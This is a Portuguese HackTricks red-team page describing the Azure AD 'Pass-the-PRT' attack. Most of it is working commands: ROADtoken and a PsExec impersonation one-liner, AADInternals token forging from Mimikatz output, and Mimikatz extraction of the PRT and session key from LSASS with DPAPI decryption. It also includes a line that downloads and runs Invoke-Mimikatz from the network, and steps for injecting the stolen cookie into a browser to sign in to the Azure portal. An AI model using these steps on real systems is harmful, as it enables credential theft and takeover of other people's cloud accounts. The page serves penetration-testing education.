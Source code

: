 # Az - Passar o PRT

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## O que é um PRT

{% content-ref url="az-primary-refresh-token-prt.md" %}
[az-primary-refresh-token-prt.md](az-primary-refresh-token-prt.md)
{% endcontent-ref %}

### Verifique se você tem um PRT
```
Dsregcmd.exe /status
```
Na seção Estado do SSO, você deve ver o **`AzureAdPrt`** definido como **SIM**.

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

No mesmo resultado, você também pode ver se o **dispositivo está vinculado ao Azure** (no campo `AzureAdJoined`):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### Ataque - ROADtoken

Para mais informações sobre este método [**verifique este post**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). ROADtoken executará **`BrowserCore.exe`** do diretório correto e usará para **obter um cookie PRT**. Esse cookie pode então ser usado com ROADtools para autenticar e **obter um token de atualização persistente**.

Para gerar um cookie PRT válido, a primeira coisa de que você precisa é um nonce.\
Você pode obter isso com:
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
Ou usando [**roadrecon**](https://github.com/dirkjanm/ROADtools):
```powershell
roadrecon auth prt-init
```
Então você pode usar [**roadtoken**](https://github.com/dirkjanm/ROADtoken) para obter um novo PRT (execute a ferramenta a partir de um processo do usuário a ser atacado):
```powershell
.\ROADtoken.exe <nonce>
```
Como uma linha única:

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Então você pode usar o **cookie gerado** para **gerar tokens** para **entrar** usando Azure AD **Graph** ou Microsoft Graph:
```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### Ataque - Usando AADInternals

`Get-AADIntUserPRTToken` **obtém o token PRT do usuário** do computador que está integrado ao Azure AD ou híbrido. Utiliza `BrowserCore.exe` para obter o token PRT.
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
Ou se você tiver os valores do Mimikatz, também pode usar o AADInternals para gerar um token:
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
Vá para [https://login.microsoftonline.com](https://login.microsoftonline.com), limpe todos os cookies para login.microsoftonline.com e insira um novo cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
Então acesse [https://portal.azure.com](https://portal.azure.com)

{% hint style="danger" %}
O restante deve ser o padrão. Certifique-se de que você pode atualizar a página e o cookie não desaparece, se desaparecer, você pode ter cometido um erro e terá que passar pelo processo novamente. Se não desaparecer, você deve estar bem.
{% endhint %}

### Ataque - Mimikatz

#### Passos

1. **Extraia** o **PRT do LSASS** e salve isso para mais tarde.
2. **Extraia** a **Chave de Sessão**. Se você se lembra, ela é emitida e depois recriptografada pelo dispositivo local, então precisamos **descriptografá-la usando uma chave-mestra DPAPI**. Para mais informações sobre DPAPI, confira este link [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) ou o [**Ataque Pass-the-cookie**](az-pass-the-cookie.md).
3. Usando a Chave de Sessão descriptografada, obteremos a chave derivada para o PRT e o contexto. Isso é necessário para **criar nosso cookie PRT**. A chave derivada é o que é usado para assinar o JWT para o cookie. Dirk-jan fez um ótimo trabalho explicando esse processo [aqui](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

{% hint style="warning" %}
Isso não funcionará após as correções de agosto de 2021 para obter tokens PRT de outros usuários, pois apenas o usuário pode obter seu PRT (um administrador local não pode acessar os PRTs de outros usuários), mas pode acessar o seu.
{% endhint %}

{% hint style="danger" %}
**Essa maneira de gerar o cookie não funcionou para mim na última vez**
{% endhint %}

Você pode usar o **mimikatz** para extrair o PRT:
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
**Copie** a parte rotulada como **Prt** e salve-a.\
Extraia também a chave de sessão ou "**ProofOfPosessionKey**", que você pode ver destacada abaixo. Esta está criptografada e precisaremos usar nossas masterkeys DPAPI para descriptografá-la.

{% hint style="info" %}
Se você não ver nenhum dado PRT, pode ser que você **não tenha nenhum PRT** porque seu dispositivo não está associado ao Azure AD ou pode ser que você esteja **executando uma versão antiga** do Windows 10.
{% endhint %}

Para **descriptografar** a chave de sessão, você precisa **elevar** seus privilégios para **SYSTEM** para executar sob o contexto do computador para poder usar a **masterkey DPAPI para descriptografá-la**. Você pode usar os seguintes comandos para fazer isso:
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
Agora você quer copiar tanto o valor do Contexto:

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Quanto o valor da chave derivada:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Finalmente, você pode usar todas essas informações para **gerar cookies PRT**:
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
```markdown
<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Acesse [https://login.microsoftonline.com](https://login.microsoftonline.com), limpe todos os cookies para login.microsoftonline.com e insira um novo cookie.
```
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
Acesse [https://portal.azure.com](https://portal.azure.com)

{% hint style="danger" %}
O restante deve ser mantido como padrão. Certifique-se de que você pode atualizar a página e o cookie não desaparece, se desaparecer, você pode ter cometido um erro e terá que passar pelo processo novamente. Se não desaparecer, você deve estar pronto.
{% endhint %}

## Referências

* [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
* [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
